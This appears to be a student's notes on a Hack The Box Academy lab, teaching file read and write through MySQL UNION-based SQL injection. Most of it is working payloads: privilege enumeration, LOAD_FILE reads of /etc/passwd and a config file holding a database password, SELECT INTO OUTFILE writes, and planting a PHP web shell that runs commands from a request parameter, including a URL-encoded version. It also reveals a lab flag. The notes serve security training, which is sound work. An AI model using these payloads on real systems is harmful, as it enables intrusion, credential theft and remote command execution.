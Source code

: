 # Read & Write Files

## Read File

### Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation

First, we have to determine which user we are within the database

If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do.&#x20;

**Find current DB user**

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

### **User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user.

**Test super admin privileges**

```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

_If we had many users within the DBMS_, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Dumping other privileges we have, directly from the schema**

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

_If we had many users within the DBMS_

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```

### LOAD\_FILE

[LOAD\_FILE()](https://mariadb.com/kb/en/load\_file/) function can be used in MariaDB / MySQL to read data from files.

```sql
SELECT LOAD_FILE('/etc/passwd');
```

> We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png" alt=""><figcaption></figcaption></figure>

We were able to successfully read the contents of the passwd file through the SQL injection.

### Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/load_file_search.png" alt=""><figcaption></figcaption></figure>

### Assessment

We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- - 
```

dB\_pAssw0rd\_iS\_flag!

## Writing File

### Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

The [secure\_file\_priv](https://mariadb.com/kb/en/server-system-variables/#secure\_file\_priv) variable is used to determine where to read/write files from

**find out the value of `secure_file_priv`**

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

using a `UNION` injection, we have to get the value using a `SELECT` statement.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

### SELECT INTO OUTFILE

The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```shell-session
cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```shell-session
cat /tmp/test.txt 

this is a test
```

```shell-session
ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

owned by the `mysql` user.

### Writing Files through SQL Injection

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_proof.png" alt=""><figcaption></figcaption></figure>

No error = query succeeded

**Checking for the file `proof.txt` in the webroot**

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_proof_text.png" alt=""><figcaption><p>http://SERVER_IP:PORT/proof.txt</p></figcaption></figure>

### Writing a Web Shell

We can write the following PHP webshell to be able to execute commands directly on the back-end server:

```php
<?php system($_REQUEST[0]); ?>
```

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

`http://SERVER_IP:PORT/shell.php?0=id`

### Assessment

Find the flag by using a webshell.

```
search.php?port_code=cn'+union+select+""%2C'<%3Fphp+system(%24_REQUEST[0])%3B+%3F>'%2C+""%2C+""+into+outfile+'%2Fvar%2Fwww%2Fhtml%2Fshell.php'--+-
```

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>









